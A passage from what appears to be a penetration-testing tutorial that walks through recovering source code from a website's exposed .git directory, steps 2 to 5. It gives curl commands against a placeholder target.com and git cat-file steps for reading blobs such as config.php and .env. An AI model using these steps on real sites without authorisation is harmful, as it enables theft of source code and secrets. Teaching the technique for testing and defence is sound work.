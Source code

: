 #### Step 2: Manually Download Git Objects

Git stores its objects (commits, blobs, trees) using SHA-1 hashes, **split into two parts: the first two characters are used as the folder name, and the rest is the file name inside that folder.**

You can recreate this structure locally and use `curl` to download the object.

```bash
mkdir -p .git/objects/7a/ 

curl https://target.com/.git/objects/7a/552eaf43fbfb05bfa5db4985040f68ae139a4b -o .git/objects/7a/552eaf43fbfb05bfa5db4985040f68ae139a4b
```

_Make sure to replace the hash with a real one found from `.git/HEAD`, `.git/refs/`, or other files._

#### Step 3: Inspect the Object Using Git

Once the object is downloaded into the correct path, Git can be used to inspect it. Use `git cat-file -p` **followed by the full hash to view its content. This helps identify whether it's a commit, tree, or blob.**

```bash
git cat-file -p 7a552eaf43fbfb05bfa5db4985040f68ae139a4b
```

_A commit object will show metadata like author, date, and a pointer to a tree object._

#### Step 4: Explore the Tree to Find Files

_A commit usually points to a tree object. That tree represents the folder structure and contains file names with their corresponding blob hashes. 

**Use the tree hash from the previous step to list file entries.**

```vb
git cat-file -p 463ab7c4b442d2856a9a07e73dd4d8f041e87661
Response:

100644 blob 9ddbdccfc128cb8fd14c1d13b3a4303bb1eaa4b0 index.php
100644 blob 68fb22f439999d373bddb5c873e9cf1d56b77723 config.php
```

_These blob hashes are the actual file contents._

#### Step 5: Read the File Content from Blobs
<mark style="background: #ADCCFFA6;">
Once you have the blob hash of a file, you can directly read its contents.</mark> 

**This is where you start recovering source code and potentially sensitive data.**

```bash
git cat-file -p 9ddbdccfc128cb8fd14c1d13b3a4303bb1eaa4b0
```

Repeat the process for each blob to recover important files like `index.php`, `config.php`, `.env`, and more.
